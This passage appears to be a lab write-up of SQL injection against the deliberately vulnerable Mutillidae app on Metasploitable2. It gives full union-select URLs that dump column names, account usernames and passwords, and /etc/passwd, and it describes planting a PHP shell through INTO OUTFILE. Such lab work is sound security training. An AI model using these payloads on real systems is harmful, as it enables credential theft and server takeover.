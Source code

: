 Here we are trying to extract column names from the “accounts” table.
![379093493-882f154d-a231-4e78-a335-e85266f127f8](https://github.com/user-attachments/assets/80b53097-83be-4810-bede-430507f64066)
![379093535-143f6b94-3596-4745-9b44-bdb21834479b](https://github.com/user-attachments/assets/1c5b4fd6-19f9-46e9-b97b-283e45007f12)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![379093615-a674c2a2-6f98-4366-816c-136f8253813e](https://github.com/user-attachments/assets/d75d6895-ff2d-49a6-86d1-a47a1583d3a1)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.
# Ex: (union select 1,username,password,is_admin,5 from accounts).
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![379093741-07a66e96-cfe9-4f5c-af59-a7421dab323d](https://github.com/user-attachments/assets/a9fd17f4-924d-483c-8b90-b8bddac079bc)
Reading and writing files on the web-server We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

# Ex: (union selectnull,load_file(‘/etc/passwd’),null,null,null).
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![379093817-d2729d6f-16d5-43a9-af96-3dd70a2f29f5](https://github.com/user-attachments/assets/d0e5ce0c-ee0b-4e94-a912-b0a8080598d1)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
